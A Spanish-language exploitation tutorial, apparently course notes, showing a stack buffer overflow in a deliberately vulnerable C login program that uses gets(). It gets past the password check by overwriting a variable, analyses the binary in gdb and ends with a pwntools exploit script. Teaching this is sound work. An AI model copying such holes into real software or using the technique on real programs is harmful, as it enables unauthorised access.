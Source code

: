 ```yaml
---
original autor: CrazyCat
coautor: naibu3
---
```


#bufferOverflow 

# 01_BO_Stack_Variable_Overwritting

## ¿Qué es?

En el ejercicio anterior vimos como es posible sobreescribir registros adyacentes a una variable que actúa como buffer. Ahora, veremos como podemos aprovecharnos de esta vulnerabilidad para sobreescribir variables sensibles cercanas en memoria. Más concretamente en la zona del *stack* o *pila*, donde se guardan las variables *estáticas*.

Además trataremos de crear un script que automatice la interacción con el binario.
 
 -----
 
## Ejercicio 1

### Compilar el binario

Para este ejercicio utilizaremos el siguiente código:

```c
#include <stdio.h>
#include <string.h>

int main(void)
{
    char password[6];
    int authorised = 0;

    printf("Enter admin password: \n");
    gets(password);

    if(strcmp(password, "pass") == 0)
    {
        printf("Correct Password!\n");
        authorised = 1;
    }
    else
    {
        printf("Incorrect Password!\n");
    }

    if(authorised)
    {
        printf("Successfully logged in as Admin (authorised=%d) :)\n", authorised);
    }else{
		printf("Failed to log in as Admin (authorised=%d) :(\n", authorised);
	}

    return 0;
}
```

Estará en el fichero *login.c*. Como es un código en C debemos compilarlo (igual que el ejercicio anterior):

```bash
gcc -o login login.c -fno-stack-protector -z execstack -no-pie -m32
```

### Análisis del binario

Comenzamos comprobando sólo con el comando `file`:

```bash
file login
```
```file
login: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=3e09d2aa3945eabf7f50403d0a6f9c39fd6d360e, for GNU/Linux 3.2.0, not stripped
```

Vemos que es un binario de 32 bits, *dinamically linked* y que es *not stripped*. Vamos a lanzar ahora [[checksec]]:

```bash
checksec login
```
```checksec
Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments

```

Vemos que no tiene ninguna seguridad activa. Vamos a probar a ejecutarlo:

```bash
./login
```
```login
Enter admin password: 
123
Incorrect Password!
Failed to log in as Admin (authorised=0) :(
```

Vemos que si introducimos la contraseña `123` nos dice que es incorrecta. Aemás nos muestra lo que parece el valor de una variable `authorised`. Vamos a intentar desbordar la variable `password`:

```login
Enter admin password: 
aaaaaaaaa
Incorrect Password!
Successfully logged in as Admin (authorised=6381921) :)
```

Hemos introducido muchas "*a*", de forma que nos dice que la contraseña es incorrecta, pero la variable authorised ha sido sobreescrita, valiendo ahora `6381921`.

#### Análisis con [[ltrace]] o [[strace]]

No será posible utilizar esta herramienta en la mayor parte de los casos, sin embargo podemos utilizarla en este ejercicio para ver qué funciones se llaman en cada momento:

```bash
ltrace login
```
```ltrace
write(1, "Enter admin password: \n", 23Enter admin password: 
) = 23
fstat64(0, {st_mode=S_IFCHR|0620, st_rdev=makedev(0x88, 0x2), ...}) = 0
read(0, aaaaaaaa
"aaaaaaaa\n", 1024)             = 9
write(1, "Incorrect Password!\n", 20Incorrect Password!
)   = 20
write(1, "Successfully logged in as Admin "..., 54Successfully logged in as Admin (authorised=24929) :)
) = 54
exit_group(0)
```

Así podríamos ver qué está pasando.

#### Análisis con [[gdb]]

Vamos a ver ahora el análisis que haríamos normalmente. Para ello lanzamos [[gdb]]-[[pwndbg]]:

```bash
gdb-pwndbg login
```

Una vez dentro podemos verlas funciones con `info functions` aunque sólo tenemos `main()`, por lo que la descompilamos:

```gdb
disassemble main
```
```gdb
[...]
0x08049216 <+132>:	call   0x8049060 <puts@plt>
0x0804921b <+137>:	add    esp,0x10
0x0804921e <+140>:	cmp    DWORD PTR [ebp-0xc],0x0
0x08049222 <+144>:	je     0x804923b <main+169>
0x08049224 <+146>:	sub    esp,0x8
[...]
```

Vemos que tenemos una comparación entre el registro `ebp-0xc` y el valor `0x0`. Si lo comprobamos en [[ghidra]] veremos que dicho registro corresponde a la variable `authorised`. Vamos a establecer un *breaking point* en dicho punto:

```gdb
break 0x0804921e
ó
break *main+140
```

Ejecutamos el programa con `run` e introducimos una contraseña de prueba, por ejemplo `aaaa`:

```gdb
Enter admin password: 
test
Incorrect Password!
```

Ahora parará en el *break point*, permitiendonos ver el valor del registro que mencionamos antes:

```gdb
x $ebp - 0xc
```
```gdb
0xffffd07c:	0x00000000
```

Vemos que el valor del registro es `0` (en hexadecimal). Vamos a cambiarlo a `1`, debemos utilizar la dirección del registro, ya que `ebp - 0xc` guarda la dirección de dicho registro:

```gdb
set *0xffffd07c = 1
```

Si volvemos a mirar `ebp - 0xc`, veremos que ahora vale `1`:

```gdb
x $ebp - 0xc
```
```gdb
0xffffd07c:	0x00000001
```

Si continuamos la ejecución con `c`, veremos que ahora nos permitirá el acceso incluso sin haber proporcionado la contraseña correcta:

```gdb
Continuing.
Successfully logged in as Admin (authorised=1) :)
```


#### Script

Para practicar scripting podemos crear un script simple en python utilizando la librería [[pwntools]], que explote la vulnerabilidad:

```python
#!/bin/python3
from pwn import *

#Start binary
io = process('./login')    #En caso de ser un servidor remoto sería remote()

#Send string to overflow buffer
io.sendlineafter(b':', b'aaaaaaa')    #Manda la linea despues de detectar el prompt (:)

#Receive output
print(io.recvall().decode())
```

Si ejecutamos, funciona!

```python
[+] Starting local process './login': pid 4862
[+] Receiving all data: Done (73B)
[*] Process './login' stopped with exit code 0 (pid 4862)
 
Incorrect Password!
Successfully logged in as Admin (authorised=97) :)
```